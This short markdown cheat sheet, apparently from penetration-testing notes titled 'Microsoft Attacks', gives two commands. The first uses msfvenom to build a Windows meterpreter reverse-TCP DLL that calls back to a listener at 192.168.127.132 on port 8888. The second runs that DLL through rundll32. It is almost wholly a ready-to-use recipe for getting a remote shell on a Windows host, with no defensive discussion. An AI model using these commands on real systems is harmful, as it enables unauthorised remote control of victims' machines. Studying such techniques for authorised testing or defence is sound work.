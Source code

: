 # Microsoft Attacks

### Execute Malicious DLL with Rundll32
- Generate shared library (DLL) with Metasploit
```console
msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\xff' lhost=192.168.127.132 lport=8888 -f dll -o payload.dll
```
- Execute the malicious DLL with rundll32
```console
rundll32.exe shell32.dll,Control_RunDLL payload.dll
```
